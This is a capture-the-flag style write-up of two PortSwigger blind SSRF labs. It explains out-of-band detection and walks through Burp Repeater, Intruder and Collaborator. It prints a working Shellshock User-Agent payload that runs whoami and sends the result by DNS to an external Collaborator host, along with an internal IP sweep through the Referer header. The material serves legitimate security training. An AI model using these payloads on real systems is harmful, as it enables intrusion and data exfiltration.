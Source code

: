 ## **PortSwigger - Blind Server Side Request Forgery**

Blind SSRF vulnerabilities arise when an application can be induced to issue a back-end HTTP request to a supplied URL, but the response from the back-end request is not returned in the application's front-end response. 

The impact of blind SSRF vulnerabilities is often lower than fully informed SSRF vulnerabilities because their one-way nature. They cannot be trivially exploited to retrieve sensitive data from back-end systems, although in some situations they can be exploited to achieve full remote code execution. 

The most reliable way to detect blind SSRF vulnerabilities is using out-of-band (OAST) techniques. This involves attempting to trigger an HTTP request to an external system that the attacker controls and monitoring for network interactions with that system. 

Simply identifying a blind SSRF vulnerability that can trigger out of bend HTTP requests doesn't in itself provide a route to exploitability. Since you cannot view the response from the back-end request the behavior can't be used to explore content on systems that the application server can reach. However it can still be leveraged to probe for other vulnerabilities on the server itself or on other back-end systems. You can blindly sweep the internal IP address space, sending payloads designed to detect well-known vulnerabilities. If those payloads also employ blind out-of-band techniques, then you might uncover a critical vulnerability on an unpatched internal server. 

Another avenue for exploiting blind SSRF vulnerabilities is to induce the application to connect to a system under the attackers control, and return malicious responses to the HTTP client that makes the connection. If an attacker can exploit a serious client side vulnerability in the server's HTTP implementation, they might be able to achieve remote code execution within the application infrastructure. 

Many SSRF vulnerabilities are easy to find, because the applications normal traffic involves request parameters containing full URLs. Other examples of SSRF are harder to locate. 

Sometimes an application places only a hostname or part of a URL path into request parameters. The value submitted is then incorporated server-side into a full URL that is requested. If the value is readily recognized as a hostname or URL path the potential attack surface might be obvious, however exploitability as full SSRF might be limited because you do not control the entire URL that gets requested. 

Some applications transmit data in formats with a specification that allows the inclusion of URLs that might get requested by the data parser for the format.  

Some applications use server-side analytics software to track visitors. This software often logs the Referer header in requests, so it can track incoming links. Often the analytics software visits any third-party URLs that appear in the Referer header. This is typically done to analyze the contents of referring sites, including the anchor text that is used in the incoming links. As a result, the referer header is often a useful attack surface for SSRF vulnerabilities.  

---

**Labs**

*Blind SSRF With Out-Of-Band Detection* 

![lab1 intro](/docs/assets/images/portswigger/blindssrf/bssrf01.png)

As indicated by the instructions in the lab I need to retrieve the request that generates when a product page is loaded so that I can edit it's `Referer Header`. I'll start by sending this `GET /product?productId=1` request to the repeater.  

![lab1 workflow](/docs/assets/images/portswigger/blindssrf/bssrf02.png)

I'll then need to start the collaborator and copy it's URL to the clipboard. 

![collaborator start](/docs/assets/images/portswigger/blindssrf/bssrf03.png)

Then back in the repeater I'll replace the value of the `Referer Header` with my collaborator URL `https://rrms4flzs2g6tljgqlthy0m9s0yrmha6.oastify.com`. I can observe that the webserver responds with a `200 OK` and that some DNS and HTTP traffic was received by my collaborator. 

![edit referer header](/docs/assets/images/portswigger/blindssrf/bssrf04.png)

![dns query in colaborator](/docs/assets/images/portswigger/blindssrf/bssrf05.png)

Additionally since all I had to do was make the server reach out to the collaborator the lab is now marked as solved back in the web browser. 

![lab1 solved](/docs/assets/images/portswigger/blindssrf/bssrf06.png)

---

*Blind SSRF With Shellshock Exploitation* 

![lab2 intro](/docs/assets/images/portswigger/blindssrf/bssrf07.png)

To start this lab I send a request to view one of the products in the web browser so that I can observe the applications workflow in burps history. There are only 2 requests and the one I'm interested in is the one that has the Referer header containing a URL. I'm going to start the collaborator and send this `GET /product?producId=1` to the intruder. 

![workflow](/docs/assets/images/portswigger/blindssrf/bssrf08.png)

![start collaborator](/docs/assets/images/portswigger/blindssrf/bssrf09.png)

Within the intruder I'll need to edit the `User-Agent` header to contain a Shellshock vulnerability payload and at the end of it I will add the address generated by the collaborator when I started it: 

`User-Agent: () { :; }; /usr/bin/nslookup $(whoami).vfen96xb349qlgtbunu946fvgmmda4yt.oastify.com` 
 
`() { :; }` is a bash function definition, it defines a function with an empty body and assigns it no name. This is used to create the command injection vulnerability. `;` is a command separator in Bash which is used to run multiple commands on a single line. `/usr/bin/nslookup` is a command line tool used for DNS lookups. `$(whoami)` is command substitution, it executes the `whoami` command to get the current user's username and inserts it into the `nslookup` command as an argument. This will cause it to be included in the DNS query logged by my collaborator when the command reaches out to it. The `.vfen96xb349qlgtbunu946fvgmmda4yt.oastify.com` part of the payload is the address of the collaborator the command will atempt to send the DNS query too. 

Additionally I'll need to edit the referer header to contain the IP range listed in the labs introduction in the form of a URL with the proxy port 8080. Finally I'll wrap the last octet of the IP address in section signs indicating it as my payload position. 

`Referer: http://192.168.0.§1§:8080`

![intruder edits](/docs/assets/images/portswigger/blindssrf/bssrf10.png)

With the request set up in the intruder I'll need to edit the payloads tab as well. Under *Payload sets* I'll set the Payload type to `Numbers`. Under the *Payload settings* I'll set the range to sequential and `From:0 To: 255` with a `Step:1`. This will cause the intruder to test every potential value of the last octet of the IP address. 

![edit payload](/docs/assets/images/portswigger/blindssrf/bssrf11.png)

Then I just start the attack and when it finishes I can observe that the server responded with a 200 to every single request. 

![attack results](/docs/assets/images/portswigger/blindssrf/bssrf12.png)

However If I check the logs in the collaborator I can see a DNS query from the server containing a username `peter-Lr0q1U`. 

![collaborator logs](/docs/assets/images/portswigger/blindssrf/bssrf13.png)

Back in the web browser I can submit the username I found as a solution and see that the lab gets marked as solved. 

![submit solution](/docs/assets/images/portswigger/blindssrf/bssrf14.png)

![lab2 solved](/docs/assets/images/portswigger/blindssrf/bssrf15.png)


